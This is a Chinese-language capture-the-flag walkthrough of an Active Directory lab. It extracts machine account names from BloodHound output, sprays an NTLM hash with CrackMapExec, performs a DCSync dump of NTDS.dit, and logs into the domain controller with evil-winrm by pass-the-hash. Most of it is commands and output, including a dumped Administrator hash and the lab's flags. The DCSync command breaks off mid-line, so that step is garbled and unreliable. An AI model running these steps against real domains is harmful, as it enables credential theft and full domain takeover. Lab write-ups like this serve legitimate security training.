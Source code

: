 进行密码喷射之前，我们还需要获取目标的所有机器账户列表

我们可以利用Bloodhood收集的压缩包里面的computer.json文件获取

```PowerShell
unzip 20241120140128\_bloodhound.zip
cat 20241120140128\_computers.json | jq .  | grep samaccountname | cut -d '"' -f4 > machines.txt
```
使用 CrackMapExec 进行密码喷射

```PowerShell
crackmapexec smb DC01.SOUPEDECODE.LOCAL -u machines.txt  -H f984aa0aa19fcb118d6b20506ce75c6d | grep -v '[-]'
SMB         SOUPEDECODE.LOCAL 445    DC01             [\*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         SOUPEDECODE.LOCAL 445    DC01             [+] SOUPEDECODE.LOCAL\DC01$:f984aa0aa19fcb118d6b20506ce75c6d
```
## 7. DCSync攻击

通过密码喷射 我们知道了这个hash是机器账户DC01$的

利用bloodhood GUI 对DC01$进行分析

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/21.DC02.006.png)

可以看到DC01$ 是 Administrator 组的成员，我们可以使用此组成员身份权限对域控制器执行 DCSync 攻击。

> 在Enterprise Admin 组 也可以进行DCSync攻击能够执行能够执行 replication synchronization 权限 也可以



```PowerShell
crackmapexec smb DC01.SOUPEDECODE.LOCAL -u 'DC01


--ntds  获取NTDS.dit 文件的内容这个文件是 Windows 域控的 Active Directory 数据库，包含了所有域账户的信息，包括密码哈希、Kerberos 密钥等敏感信息

管理员的hash

```PowerShell
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8982babd4da89d33210779a6c5b078bd:::
```
### 7.1. winrm登录

我们已经转储了域中所有用户的凭证。利用管理员的哈希值通过 WinRm 在本地登录到域控获取flag

```PowerShell
evil-winrm -i 192.168.56.126 -u Administrator -H 8982babd4da89d33210779a6c5b078bd 
```


```PowerShell
\*Evil-WinRM\* PS C:\Users\Administrator\Documents> type C:\Users\zximena448\Desktop\user.txt
2fe79eb0e02ecd4dd2833cfcbbdb504c

\*Evil-WinRM\* PS C:\Users\Administrator\Documents> type C:\Users\Administrator\Desktop\root.txt
d41d8cd98f00b204e9800998ecf8427e
```
